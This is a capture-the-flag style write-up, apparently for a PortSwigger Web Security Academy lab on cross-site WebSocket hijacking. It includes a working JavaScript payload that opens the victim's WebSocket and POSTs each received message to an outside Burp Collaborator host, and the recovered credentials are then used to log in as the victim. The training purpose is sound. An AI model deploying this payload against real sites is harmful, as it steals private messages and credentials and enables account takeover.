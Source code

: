 <div align='center'>

# **Web Socket**

</div>

## **Lab:** Cross-site WebSocket hijacking

**Goal:** Use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

**Solution:**

1.  Experiencing the live chat function then examing the request. We see that the server use Web Socket to handle the live chat's data. Notice that client will send the "READY" message to the server to let the server know that the client is ready for the connection

![](./img/1.png)

2.  We will make an html payload like below:

```html
<script>
    var ws = new WebSocket('wss://0ae700610398de55c1b2f44a00d60069.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://2vyc5cworf5ofjatd6k1ngdk1b71vq.oastify.com', {method: 'POST', body: event.data});
    };
</script>
```

This payload will open the server's web socket, then send the "READY" message to the server. When this web socket receives data, a POST request to the Burp Collaborator Client will be sent with the request body containing that web socket data. That request will be record by Burp Collaborator

3.  Deliver that payload page to the victim, we get the victim's username as carlos and his password. Log in as carlos to solve the lab

![](./img/2.png)